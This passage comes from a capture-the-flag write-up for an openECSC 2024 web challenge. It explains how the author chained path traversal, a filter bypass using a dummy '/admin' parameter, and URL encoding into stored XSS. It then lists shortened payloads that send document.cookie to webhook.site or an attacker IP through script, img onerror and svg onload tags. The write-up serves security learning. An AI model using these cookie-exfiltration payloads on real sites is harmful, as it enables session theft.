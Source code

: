 One very convenient thing is that if you decide to insert an unused query parameter in the request, it will simply be sent to the server and not used. This means that you can send a completely random parameter with the value `/admin` to skip any kind of sanitization without having to modify the payload in some convoluted way.

So, if before in the reporting phase you sent `id=1/../../search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>&message=openECSC`, now you can send something similar to `id=1/../../search?lol=/admin&q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>&message=/admin`.

Note how I had to use one `/admin` to bypass the filter when communicating with the bot and another to bypass the filter when tricking the bot into performing a search in the related endpoint.

Of course, starting such a chain (?) means properly handling URL encoding to ensure that the parameters are correctly spread between the POST made to the report endpoint (to which the parameters `id` and `message` will be sent) and the request made by the bot to the search endpoint (to which the necessary parameter `search` and the dummy parameter `lol` will be sent).

Once the URL encoding is correctly applied, the result should be this: `id=1/../../search%3flol%3d"/admin"%26q%3d<script>window.location%253d"https%253a//webhook.site/[REDACTED]%253d"%252bdocument.cookie</script>&message=/admin`.

Since it's not excluded by the filter, it will be necessary to bypass the filter also in the report endpoint. To do this, simply add any query parameter with the value `/admin` or `'/admin'` in the report URL. In Burp Suite, the final payload will be:

![Final payload without length filter](/writeups/openecsc-2024/perfect_shop/img/PayloadNoLenght.png)

By doing this, you should again get the flag on the webhook as before. Now there's one last obstacle to overcome...

#### Last Step: Length Filter Bypass
This step didn't require any rocket science. Let's say I simply aimed to find the shortest possible payload with the same philosophy as the previous ones. For completeness, I'll add a subsection with the various things I tried during the competition.

##### What I Tried During the Competition
- First of all, I tried several times to exploit [unicode normalization](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html), with a payload like [`<script src=//ﬀﬀ.pw>`](https://jlajara.gitlab.io/XSS_20_characters), but it seemed useless to me because it wouldn't have allowed me to exfiltrate the cookie (which is absolutely not true) since I wouldn't have been able to append the contents of `document.cookie`, as the use of `src` alone wouldn't have allowed me to execute JavaScript code;
  
- I tried using `onerror` like this: `<img src/onerror=this.src='https://[IP]/'+document.cookie>`, but it still went beyond the allowed 50 characters;
  
- I found a way to not specify the protocol, resulting in `<img src/onerror=this.src='//[IP]/'+document.cookie>`. Still way too long.
  
- I tried changing the tag, first with the script tag `<script>location='//[IP]/'+document.cookie`, where `location` is a shortcut to access `window location`, but I realized that the payload wouldn't work unless I closed the tag.
  
- Again, this time with `<svg onload=location='//[IP]/'+document.cookie>`, but with the IP, I would have still exceeded the character limit by a few.
